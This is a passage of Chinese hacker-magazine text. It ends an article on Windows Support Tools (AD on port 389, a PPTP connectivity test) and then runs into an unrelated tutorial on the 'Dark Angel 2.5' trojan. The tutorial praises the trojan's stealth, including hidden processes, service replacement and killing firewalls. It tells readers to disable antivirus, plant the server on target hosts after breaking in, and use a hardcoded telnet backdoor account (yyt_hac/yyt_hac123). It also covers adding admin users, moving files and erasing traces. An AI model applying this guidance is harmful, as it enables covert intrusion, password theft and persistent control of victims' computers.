

图 11

> LOOK 注意：这里要说一句，大家应该注意到 port 一项后的端口号为 389。很多朋友都问过我，扫到端口为 389 的机器不知道对应的服务是什么，这下知道了吧？就是 Active Directory（活动目录）。

#### 6、pptpsrv.exe 和 pptpclnt.exe

这两个工具不像以上的那些工具可以用于入侵，它只是一个用来检查网络连通的工具，只是我在实验过程中发现很好玩，所以介绍给大家。

pptpsrv.exe 是服务端，从名字也可以看出来的；pptpclnt.exe 就是客户端了。

这个实验完全可以在同一台机器上实现，首先打开两个命令提示符，其中一个运行命令 pptpsrv.exe，这时候 pptpsrv.exe 会在 TCP 端口 1723 处监听，等待客户端 pptpclnt.exe 的连入，如图 12 所示。



图 12

然后我们在另外一个命令提示符里运行命令：pptpclnt.exe ip 地址（由于这个实验是在同一台机器上做的，所以这里的 IP 地址写 127.0.0.1 就可以了），这时候会出现如图 13 所示的界面，然后我们按照提示输入 1-255 之间的任何一个数字并回车，这时候，你会看到两个命令提示符中记录着 socket 的连接和数据包的传递。



图 13

同样是检查网络连通的小工具，这个比 ping 命令是不是好玩多了？

### 三、简单总结

好了，这次就介绍这么多了，这个 support tools 里还有很多很多工具，而且这些工具中大部分都是在 Windows 的域中使用的，大家可以自己去探索一下。


现在木马的使用极为频繁，而木马也有很多种。大家对冰河一定很熟悉，它的光荣历史大家也应该听说过，但是现在它已经不好用了，各种杀毒软件都可以杀了它，这就像乒坛外国人研究刘国梁一样，虽然刘国梁本身很厉害，但是别人已经把他了解透了，他当然很难赢了，冰河也遭受了相同的命运。一种不行，我们就应该试着用另一种。说了这么一段废话目的只有一个，就是希望大家经常尝试使用一些新的东西。

本文使用的新工具是“黑暗天使 2.5”。“黑暗天使”是一个结合窃听密码和远程控制于一体的木马，如果把目前流行的木马称为第四代木马，那么“黑暗天使”就是一个初级的第五代木马，它的隐蔽性是前四代无法比拟的。可用于盗取密码和留后门，它有如下特点：

- 1、安装后在任务管理器中看不到任何新增的进程。
- 2、它随机替换掉一个状态为停止的系统服务，而被替换掉的系统服务属性看不出任何改变。
- 3、注册表中看不到任何新增的键。
- 4、它有强大的自我修复功能。
- 5、具有很强的随机性，安装后木马文件名和存放的目录都是随机的。
- 6、采用端口隐藏技术，平时木马不开端口，只有当用 editDK。exe 连接时才会开端口，只能建立一个连接，连接建立后端口会自动关闭。

> **注意**：你自己的机器必须有独立的 IP 才能登录到中木马的机器上。

- 7、能够杀掉目前流行的防火墙。
- 8、增加了卸载功能，能很方便地升级。

### 一、配置服务端

我们把下载的“黑暗天使”解压出来，运行 explore.exe，如图1所示。



图1

运行感觉怎么样？杀毒软件报警了吧。没有关系，关了杀毒软件再运行。它的界面没有别的软件有那么多的按钮，显得很简洁，如图2所示。



图2



图3

在图2中点击“设置”菜单，选择“服务端”，弹出如图3所示对话框。它的一些设置其实你应该很熟悉了，广外女生，还有很多的盗QQ的软件的设置界面都和这个差不多。

确定以后在文件夹里生成了一个 DkAngel.exe 应用程序，这就是服务端，你可千万别点呀，要不然会把自己当试验品的。

设置完这些算是有了一把好武器了。我们去找一个真正的试验品，用 NET 命令把服务端 DkAngel.exe 上传到试验的目标主机上并运行它，如图4所示。



图4

OK，在客户端中把目标主机添加进来，如图5所示。



图5

激动的时候就要来了，我们连接上去，如图6所示。



图6

连上了吧，是不是很像资源管理器，怎么处置它你应该明白了，别太过分噢！

下面解释一下图6中右键菜单的各项作用：

- 1、连接到 telnet 服务器：该项的作用就是在中木马的机器上打开 telnet 服务，并且添加用户 yyt_hac，密码为 yyt_hac123，使你能用 telnet 登录到目标机器上。如图7所示为单击该菜单单项弹出的登录窗口。


图7

> **注意**：由于这种连接方式比较容易被发现，建议只在升级“黑暗天使”或第2项不成功时使用该连接。

- 2、连接到 DKAngel：该项的作用就是连接到“黑暗天使”自带的 shell 命令行状态。单击该项后，就会弹出一个命令行窗口，这时按一下回车键，如果连接成功的话就会进入如图8所示的命令行窗口。



图8

> **注意**：由于这种连接命令行窗口不能即时显示程序的输出信息，建议不要用这种连接安装或卸载黑暗天使。


图9



图10

- 3、停止 telnet 服务器：该项的作用是停止目标机器上的 telnet 服务，并且删除在第1项所添加的用户，工作完了以后不要忘了运行该选项，以消除痕迹。
- 4、删除用户：该项用于删除目标机器上的用户，如图9所示。

> **注意**：图中的密码框不需要填写。

- 5、添加用户：该项的作用是添加一个用户到目标机器的管理员组里，如图10所示。

> **注意**：密码必须满足目标机器的安全策略。

- 6、上传文件到目标机器：该项的作用是把本机上的一个文件传到中木马的机器上去，如图11所示。“上传后的位置”框中如果是一个目录名，那么文件上传后文件名不改变；如果“上传后的位置”框中是一个文件名，则上传后文件改名。


图11



图12

- 7、从目标机器下载文件：该项的作用是从中木马的机器上下载一个文件到你自己的机器上，如图12所示。
- 8、重启目标机器：该项使目标机器重新启动。

### 二、安装木马

本版本是给高手使用，高手可以先入侵到目标机器再在命令行下安装。把配置好的 DKAngel.exe 文件拷贝到目标机器上，并运行它，只要没有出现带有三个“!”的提示信息就成功了。安装木马以后，随时都可以用 editDK.exe 的连接选项以 LocalSystem 身份登录到目标机器上，这对高手来说，还有什么不能做的呢？不过你的机器必须要有独立的 IP 才能登录中木马的机器。这是一个缺点，在下一个版本中会改进。如图13所示。



图13

图13是通过登录到目标机器的 telnet 服务器并且目标机器只有一个 IP 地址时安装“黑暗天使”的情况；如果目标机器有两个 IP 地址，安装“黑暗天使”时会要你选择以后要连接的 IP 地址，实际上就是你入侵用的 IP 地址。如果你在10秒钟内没有选择，它会自动选择第一个 IP 地址（默认是机器的第一个 IP 地址），如图14所示。



图14

对于在通过远程溢出攻击产生的命令行窗口或“黑暗天使”自带的命令行窗口中安装“黑暗天使”，要特别注意有多个网卡的机器。由于这种命令行窗口不能即时显示程序的输出信息，而是要等程序结束后才会输出，因此提示你选择 IP 地址的信息不会出现。在这种情况，你要先用 ipconfig 查看目标机器的 IP 地址配置信息，如图15所示。

由图15中可以看出，机器的第一个 IP 地址是 202.119.0.1，是外部连接，一般入侵用的就是这个 IP 地址；机器的第二个 IP 地址是 1.1.1.100，是属于内部连接，一般用于内部局域网，Internet 上的机器是连不到这个地址上来的。由于我们以后要连接的地址是 202.119.0.1，因此安装“黑暗天使”时输入的 IP 地址序号为1，如图16所示。



